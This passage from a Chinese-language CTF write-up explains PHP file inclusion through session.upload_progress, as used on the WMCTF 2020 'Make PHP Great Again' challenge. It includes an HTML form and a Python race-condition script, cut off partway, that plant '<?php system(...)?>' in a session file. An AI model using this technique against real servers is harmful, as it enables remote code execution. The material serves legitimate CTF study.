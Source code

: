 当session相关配置如上的时候，我们可以利用session.upload_progress将恶意语句写入session文件，从而包含session文件。

平常，当我们要创建session时往往会在php代码里写session_start()，但我们不写的话，也是可以创建的。

比如，在php.ini中设置session.auto_start=On 的情况下，php在接收请求的时候会自动初始化session，不需要执行session_start()。但默认状态下，这个选项是默认关闭的。

![](%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB.assets/1681053049788-96e8b1e2-dbca-4411-89e3-ae28f353fe5b.png#id=N0tbZ&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

不过幸好，session还有一个默认选项，session.use_strict_mode默认值为0。

![](%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB.assets/1681053055304-582b91be-8a56-4478-b499-370ee60516d6.png#id=leWnG&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

这样用户是可以自己定义session ID的。比如，我们在cookie里设置PHPSESSID=AndyNoel，就会在服务器/tmp目录下或者/var/lib/php/sessions/目录下创建一个文件：sess_AndyNoel。即便没有设置自动初始化session，php也会产生session，并生成一个键值，这个键值由ini.get("session.upload_progress.prefix")+我们构造的session.upload_progress.name值组成，最后被一起写入sess_文件里。

### [WMCTF 2020]Make PHP Great Again

```python
<?php
highlight_file(__FILE__);
require_once 'flag.php';
if(isset($_GET['file'])) {
  require_once $_GET['file'];
}
//Please hack me with your 0day!
```

#### 方法一 | 借助Burp Suite

可以在本地写一个上传页面，然后抓包添加Cookie: PHPSESSID=aaa，再用BurpSuite爆破

```html
<!DOCTYPE html>
<html>
  <body>
    <form action="http://localhost/index.php" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="<?php system('cat flag.php');?>" />
      <input type="file" name="file" />
      <input type="submit" value="submit" />
    </form>
  </body>
</html>
```

一边不断发包请求包含恶意的session，一边不断发包以维持恶意session存储。这样就可以利用条件竞争把恶意内容留在session里面了。

#### 方法二 | python脚本

原理和上面的差不多，但是我们直接编写脚本，写shell、取flag一把梭出来，用不着那么麻烦了

```python
import io
import sys
import requests
import threading
sessid = 'AndyNoel'

def WRITE(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        session.post(
            'http://localhost/index.php',
            data={"PHP_SESSION_UPLOAD_PROGRESS":"<?php system('cat flag.php');?>"},
            files={"file":('1.txt', f)},
            cookies={'PHPSESSID':sessid}
        )
```